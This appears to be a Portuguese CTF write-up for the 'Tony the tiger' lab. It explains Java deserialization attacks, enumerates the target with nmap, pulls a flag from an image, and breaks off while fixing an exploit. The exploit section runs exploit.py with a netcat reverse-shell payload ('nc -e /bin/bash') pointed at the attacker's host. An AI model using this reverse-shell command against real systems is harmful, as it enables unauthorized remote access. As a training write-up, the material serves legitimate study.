


# _**Tony the tiger CTF**_


## _**Contextualizando**_
<mark>Serialização em nível abstrato</mark> é o processo de conversão de dados – especificamente "Objetos" em linguagens de Programação Orientada a Objetos (POO), como Java, em formatação de nível inferior conhecida como "_fluxo de bytes_"
Estes dados então podem ser armazenados para uso posterior, como em arquivos, bancos de dados e/ou transmitidos por uma rede
Posteriormente, são convertidos desse "fluxo de bytes" de volta para o "Objeto" de nível superior  
Essa conversão final é conhecida como "_Desserialização_"  

"Objetos" em um contexto de programação podem ser comparados a exemplos da vida real  
Simplificando, um "Objeto" é apenas isso — uma coisa  
"Objetos" podem conter vários tipos de informação, como estados ou características  
Para correlacionar com um exemplo do mundo real... vamos pegar uma luminária  

Uma luminária é um ótimo "Objeto"  
Uma luminária pode estar acesa ou apagada, pode ter diferentes tipos de lâmpadas — mas, em última análise, ainda é uma luminária  
O tipo de lâmpada que ela usa e se a luminária está "ligada" ou "desligada" neste caso são informações armazenadas em um "Objeto"  

Um ataque de "serialização" consiste na injeção e/ou modificação de dados ao longo da fase de "fluxo de bytes"  
Quando esses dados são posteriormente acessados ​​pelo aplicativo, códigos maliciosos podem resultar em sérias implicações  

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
  



Segundo as informações, nossa primeira flag está no website, vamos verificar  
Investigando por um tempo os posts, temos uma frase que leva a uma imagem específica
Esta frase é: _so any photos i post must have a deeper meaning..._
Vamos realiar o _download_ com ```wget```
> ```bash
> wget https://i.imgur.com/be2sOV9.jpg
> ```
Vamos então usar ```strings``` para verificar seu conteúdo  
No fim do resultado, encontramos o que queremos!  

## _**Exploit**_
Vamos realizar o _download_ do arquivo no enunciado  
Após, vamos dar permissões de execução ao arquivo _exploit.py_  
E em seguida, executar o _exploit_
> ```bash
> python2 exploit.py [ip_address]:8080 "nc -e /bin/bash [vpn_ip_address] [port]"
> ```

E temos erro no código  
Pesquisando por um tempo como pode ser corrigido e o GPT deu a seguinte solução  

